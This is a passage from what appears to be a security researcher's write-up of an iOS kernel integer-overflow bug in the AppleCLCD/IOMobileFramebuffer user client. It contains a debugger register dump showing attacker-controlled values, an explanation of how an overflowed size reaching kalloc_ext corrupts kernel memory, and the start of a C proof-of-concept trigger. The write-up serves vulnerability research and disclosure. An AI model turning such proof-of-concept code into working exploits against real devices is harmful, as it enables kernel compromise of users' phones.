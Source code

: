 ```
(lldb) reg read
General Purpose Registers:        
        x0 = 0xffffffe4cb6d95c0
        x1 = 0x0000000000000060
        x2 = 0x0000000000000040
        x3 = 0x0000000000000060
        x4 = 0x0000000000000000
        x5 = 0x0000000041414141 // <-- controlled
        x6 = 0xfffffff00991adac
        x7 = 0x0000000000006eb1
        x8 = 0x0000000041414141 // <-- controlled
        x9 = 0x000000000000003a
       x10 = 0xffffffe802080000
       x11 = 0x3ffffff932db603a
       x12 = 0x0000000000000000
       x13 = 0x00000000000001dc
       x14 = 0x0000000000004cb0
       x15 = 0x0000000000008001
       x16 = 0xffbee3f007a542d8
       x17 = 0x182effe4cb6d95c0
       x18 = 0x0000000000000000
       x19 = 0xffffffe4cb6d95c0
       x20 = 0x0000000041414141 // <-- controlled
       x21 = 0xffffffe4cd563100
       x22 = 0x0000000041414141 // <-- controlled
       x23 = 0xffffffe4cd5630f4
       x24 = 0xffffffe4cd5630ec
       x25 = 0x0000000041414141 // <-- controlled
       x26 = 0x0000000000000000
       x27 = 0xffffffe818743648
       x28 = 0xffffffe199b91608
       x29 = 0xffffffe8187434b0
       x30 = 0xfffffff0098ef23c
        sp = 0xffffffe818743470
        pc = 0xfffffff0098ef290
      cpsr = 0x20400204
```

And from here, we clearly panic.

So, we have a 32-bit integer overflow in a calculation of size! This size is passed to *kalloc_ext*, which means we can trigger memory corruption, and even control the zone (up to minor restrictions from the calculation). In many cases, such bugs lead to wildcopy, which makes the exploit much more fun for us ([one](https://github.com/saaramar/Publications/blob/master/BluehatIL_2018_WSL_exploit/WSL_slides.pdf), [two](https://saaramar.github.io/str_repeat_exploit/)). Let's dig in and see what's going on in our case.

So, I built the following POC, which triggered a panic on the iOS versions I tried (I tested 14.7.1 and 15.0, but the bug is probably older than that).

POC:

```c
 io_connect_t get_iomfb_uc(void) {
    kern_return_t ret;
    io_connect_t shared_user_client_conn = MACH_PORT_NULL;
    int type = 0;
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                       IOServiceMatching("AppleCLCD"));
    
    if(service == MACH_PORT_NULL) {
        printf("[-] failed to open service\n");
        return MACH_PORT_NULL;
    }
    
```